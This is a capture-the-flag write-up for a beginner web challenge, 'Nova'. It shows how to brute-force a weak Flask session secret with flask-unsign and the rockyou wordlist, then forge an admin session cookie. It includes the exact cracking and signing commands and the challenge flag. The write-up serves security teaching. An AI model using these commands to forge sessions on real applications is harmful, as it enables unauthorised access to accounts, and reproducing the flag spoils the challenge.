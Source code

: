 <font size='10'>Nova</font>

16<sup>th</sup> May 2024

Prepared By: `Muhammad Saad Akhtar`

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='lightgreen'>Very Easy</font>

<br><br>

## Description

- Nova presents participants with a web application where they must navigate through its components to reveal its underlying architecture. Through careful analysis and information gathering, participants discover that the backend of the application is powered by Python Flask. Furthermore, they identify that the login functionality relies on Flask sessions. Armed with this knowledge, participants embark on a journey to exploit the weaknesses in the Flask session management system. By brute forcing the Flask secret, participants aim to bypass authentication and gain access to the admin privileges, ultimately leading them to the coveted flag.

## Skills Required

- Information Gathering
- Researching Skills

# Solution

The participants are provided with a URL to access the application.

Upon visiting the URL, we can see a login page.

![img](assets/0.png)

Since we don't have any credentials, we can register an account and then login.

After logging in with our newly registered creds, we get to the dashboard but it says we don't have necessary privileges to read the flag.

![img](assets/1.png)

So we might need to get to a user with high privileges preferrably `admin` user.

Upon analyzing the requests in burp suite, we see the backend is `python`.

![img](assets/2.png)

So since python is bieng used the session seems to be flask session looking at the `session` cookie.

We can see [here](https://www.acunetix.com/vulnerabilities/web/flask-weak-secret-key/), that flask uses a secret to sign its session cookies, we can exploit this if a weak secret is used.

There's a tool named [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) by which, we can brute-force a weak flask secret.

We take our `session` cookie and brute-force it with `rockyou.txt`.

```bash
┌──(kali㉿kali)-[~/…/web/unused/nova/chall]
└─$ flask-unsign --wordlist /home/kali/Documents/wordlists/rockyou.txt --unsign --cookie 'eyJ1c2VybmFtZSI6InNhYWQifQ.ZkWvNA.a_eGvmzOGjvPEpO5hDq7wwWAqtg' --no-literal-eval 
```

![img](assets/3.png)

And we successfully got our secret as `bubble`.

Now we can sign the cookie again with `username` as `admin`.

Initially, the cookie has our own username.
```bash
┌──(kali㉿kali)-[~/…/web/unused/nova/chall]
└─$ flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6InNhYWQifQ.ZkWvNA.a_eGvmzOGjvPEpO5hDq7wwWAqtg'
```
![img](assets/4.png)

And now we can change it to `admin`.
```bash
┌──(kali㉿kali)-[~/…/web/unused/nova/chall]
└─$ flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'bubble'
```
![img](assets/5.png)

Using the newly generated `session`, we can get the flag.
![img](assets/6.png)


### Challenge Flag

flag{fl4sk_un$1gn_g0_brrrrrr!}